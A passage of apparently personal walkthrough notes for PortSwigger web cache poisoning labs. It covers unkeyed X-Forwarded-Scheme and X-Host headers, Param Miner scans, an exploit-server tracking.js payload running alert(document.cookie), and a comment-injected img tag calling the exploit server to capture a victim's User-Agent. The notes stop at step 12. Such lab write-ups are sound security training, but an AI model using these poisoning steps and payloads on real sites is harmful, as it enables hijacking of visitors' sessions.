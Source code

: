 8. Make sure the `X-Forwarded-Scheme` header is set to anything other than `HTTPS`.
9. Send the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers.
10. To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser. If the cache was successfully poisoned, you will see the script containing your payload, `alert(document.cookie)`. Note that the `alert()` won't actually execute here.
11. Go back to Burp Repeater, remove the cache buster, and resend the request until you poison the cache again.
12. To simulate the victim, reload the home page in the browser and make sure that the `alert()` fires.
13. Keep replaying the request to keep the cache poisoned until the victim visits the site and the lab is solved.

- adding a cachebuster param
	![](Pasted%20image%2020241104021240.png)
- quick headers scan using Param Miner burp extension and we observe that `X-Forwarded-Scheme` header is unkeyed
	![](Pasted%20image%2020241104021527.png)
- https scheme --> 200 response (no backserver redirect) so we have to use a nonhttps scheme
	![](Pasted%20image%2020241104022652.png)

	![](Pasted%20image%2020241104022736.png)
- scanning again using Param Miner
	![](Pasted%20image%2020241104022921.png)![](Pasted%20image%2020241104023250.png)![](Pasted%20image%2020241104023333.png)
- craft the exploit using our exploiting server as forwarded host with the poisoned cache
	![](Pasted%20image%2020241104023529.png)

# 4.Targeted web cache poisoning using an unknown header
This lab is vulnerable to web cache poisoning. A victim user will view any comments that you post. To solve this lab, you need to poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser. However, you also need to make sure that the response is served to the specific subset of users to which the intended victim belongs.

1. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the `GET` request for the home page.
2. With the [Param Miner](https://portswigger.net/web-security/web-cache-poisoning#param-miner) extension enabled, right-click on the request and select "Guess headers". After a while, Param Miner will report that there is a secret input in the form of the `X-Host` header.
3. Send the `GET` request to Burp Repeater and add a cache-buster query parameter.
4. Add the `X-Host` header with an arbitrary hostname, such as `example.com`. Notice that the value of this header is used to dynamically generate an absolute URL for importing the JavaScript file stored at `/resources/js/tracking.js`.
5. Go to the exploit server and change the file name to match the path used by the vulnerable response:
    `/resources/js/tracking.js`
6. In the body, enter the payload `alert(document.cookie)` and store the exploit.
7. Go back to the request in Burp Repeater and set the `X-Host` header as follows, remembering to add your own exploit server ID:
    `X-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`
8. Send the request until you see your exploit server URL reflected in the response and `X-Cache: hit` in the headers.
9. To simulate the victim, load the URL in the browser and make sure that the `alert()` fires.
10. Notice that the `Vary` header is used to specify that the `User-Agent` is part of the cache key. To target the victim, you need to find out their `User-Agent`.
11. On the website, notice that the comment feature allows certain HTML tags. Post a comment containing a suitable payload to cause the victim's browser to interact with your exploit server, for example:
    `<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`
12. Go to the blog page and double-check that your comment was successfully posted.